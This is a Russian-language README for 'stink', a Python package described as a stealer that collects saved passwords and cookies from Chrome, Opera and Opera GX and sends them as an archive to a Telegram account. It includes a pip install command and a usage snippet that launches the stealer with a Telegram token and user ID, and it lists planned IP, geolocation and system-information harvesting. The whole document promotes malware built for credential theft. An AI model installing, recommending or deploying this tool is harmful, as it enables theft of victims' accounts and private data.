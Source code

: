 # stink

Стиллер куки и паролей с отправкой в Telegram.

## Описание
`stink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

### Текущие возможности
1. Сбор куки и паролей следующих браузеров: Chrome, Opera, Opera GX.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других браузеров.
2. Сбор информации о системе.
3. Сбор айпи и местоположения.
 
## Установка

Установить последнюю версию можно командой:
```
pip install stink
```

## Пример использования
### Стандартный
```python
from stink.multistealer import Stealer

stealer = Stealer(token="YOUR_TOKEN", user_id=YOUR_ID)
stealer.run()
```
